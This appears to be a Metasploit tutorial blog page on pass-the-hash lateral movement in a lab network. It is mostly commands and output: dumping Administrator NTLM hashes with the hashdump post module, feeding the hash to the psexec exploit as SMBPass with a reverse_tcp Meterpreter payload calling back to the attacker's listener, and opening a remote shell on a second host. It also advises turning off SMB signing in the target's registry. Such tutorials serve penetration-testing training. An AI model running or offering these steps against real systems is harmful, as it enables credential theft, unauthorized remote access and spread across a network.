 ```yaml
---
draft: false
title: MSF PSexec Pass the Hash
weight: 230
linkTitle: PSexec Pass the Hash
translationKey: MSF_PSexec_Pass_the_Hash
date: 2017-05-25T13:17:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: We will use the psexec module to pass the hash value to the target system.
url: /msf-psexec-pass-the-hash/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

The psexec module is usually used during pentest operations. Thanks to this module, it becomes possible to log in to the target system. In normal use, it is enough to obtain the username and password of the system and enter them as a variable in the exploit module.

Normally, the path followed is to obtain the password with the `fgdump`, `pwdump` or `cachedump` commands when the meterpreter shell is opened on the system. If you find `hash` values ​​​​during these searches, we try to solve them using various tools and obtain the open form of the passwords.

However, sometimes you may encounter a different situation. You have opened an `Administrator` authorized session on a system and obtained the user's password formatted as `hash`. When you want to connect to another system on the same network through this system you logged in, you may not need to solve the password of the `Administrator` user. Usually, devices on the network communicate using these `hash` values. The psexec module allows you to use the `hash` value you find as a password.

WARNING-1:

In a system using NTLM, if the `hash` value you will find is in the format `******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c`, you need to replace the `******NOPASSWORD*******` part at the beginning with 32 zeros and enter it as a variable in `psexec`. In other words, the value should be in the form `00000000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c`.

WARNING-2:

In a lab environment, if you receive the `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` error even though you entered the correct hash value, you should set the `RequireSecuritySignature` value to `0` in the Registry settings of the target Windows system in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters`.

## Hashdump

Below, a Meterpreter session has been opened using an exploit and the `post/windows/gather/hashdump` module is used to find hash values ​​in the system.

```bash
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.131:1042)

meterpreter > run post/windows/gather/hashdump

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter >
```

As you can see, the `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` value belonging to the Administrator user at the IP address `RHOST: 192.168.57.131` has been obtained.

Now let's try to log in to the IP address `RHOST: 192.168.57.140` using this hash value. Of course, we assume that you discovered that the `SMB` service is running on the same network at the IP address `192.168.57.140` and port `445` in your previous scan.

## psexec

First, let's start Metasploit Framework with `msfconsole` and load the `psexec` module.

```bash
root@kali:~# msfconsole

                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##


       [ metasploit v4.2.0-dev [core:4.2 api:1.0]
+ -- --[ 787 exploits - 425 auxiliary - 128 post
+ -- --[ 238 payloads - 27 encoders - 8 nops
       [ svn r14551 updated yesterday (2012.01.14)

msf > search psexec

Exploits
**========**

   Name                       Description
   ----                       -----------
   windows/smb/psexec         Microsoft Windows Authenticated User Code Execution
   windows/smb/smb_relay      Microsoft Windows SMB Relay Code Execution

msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
LHOST => 192.168.57.133
msf exploit(psexec) > set LPORT 443
LPORT => 443
msf exploit(psexec) > set RHOST 192.168.57.140
RHOST => 192.168.57.140
msf exploit(psexec) > show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.140   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
   ```

## SMBPass

As seen above, we need to enter the `SMBPass` variable in the `exploit/windows/smb/psexec` module. Let's enter the hash value we have in the `SMBPass` variable and run the module with the `exploit` command.

```bash
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'Administrator'...
> Uploading payload...
> Created \KoVCxCjx.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (XKqtKinn - "MSSeYtOQydnRPWl")...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
> Deleting \KoVCxCjx.exe...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.140:445)

meterpreter > shell
Process 3680 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```

As you can see, a session has been opened at the IP address `192.168.57.140`.
